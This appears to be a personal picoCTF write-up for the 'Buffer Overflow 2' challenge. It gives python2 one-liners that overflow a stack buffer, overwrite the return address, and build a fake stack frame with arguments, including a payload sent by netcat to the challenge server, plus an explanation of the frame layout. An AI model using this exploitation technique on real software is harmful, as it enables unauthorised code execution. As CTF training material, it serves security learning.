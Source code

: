 # pico_ctf_bo2

- pico ctf BUFFER OVERFLOW 2

- https://www.youtube.com/watch?v=eJ0FmCfD-1g&ab_channel=JohnHammond

above video was used for hint for the "crafted frame requiring RIP" bit


> interesting numbers
```
python2 -c "print('A'*108)" | ./vuln


python2 -c "print('A'*107+'XXXXY' + '\x96\x92\x04\x08' +'\x0d\xf0\xfe\xca'  )" | ./vuln



working RIP ovewrite
python2 -c "print('A'*112 + '\x96\x92\x04\x08' +  '\x0d\xf0\x0d\xf0' +'\x0d\xf0\xfe\xca'  )" | ./vuln 


# still working rip
# now the "args" are at lower mem addresses on the stack
python2 -c "print('A'*104 + '\x0d\xf0\xfe\xca' + '\x0d\xf0\x0d\xf0' + '\x96\x92\x04\x08'  )" | ./vuln

```


## solution

> working remote payload
```
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" | nc saturn.picoctf.net 52463
```

> explanation of payload
```
first we fill the buffer, clobber EBP for current frame with A
next we write a new RET address onto the saved rip '\x9a\x92\x04\x08' 

Unlike other buffer overflows I have done WE NEED  A STACK FRAME
	this is because we are going to pass arguments to the function that we jump to
	a stack frame EXPECTS
		locals
		saved eIP
		then arguments
	we build a stack frame
		part of the ret is to pop the above into eIP
		therefore at point of our overflow we need to provide the saved eIP for our frame we are buiding
			it doesnt have to be legitimate
			it only needs to be legitimate if we want to do a 2nd return/jump
			thus we can use 'CCCC'
		below our crafted saved eIP we put the arguments to our function call
		first arg is at lowest address (seemingly backward order from our theory, but ignore for now)
```


## lessons learnt

```py
struct.pack('<I', 0x08049296)
python2 -c "print('A'*112 + '\x9a\x92\x04\x08' + 'CCCC' +'\x0d\xf0\xfe\xca'  +'\x0d\xf0\x0d\xf0'  )" 
```

python payloads are best generated with python2, python3 tries to encode it and ruins it
struct.pack will little endian encode a hex integer for you
python payloads can be printed to terminal, they can be copy pasted you just have to trust they are there (because they are)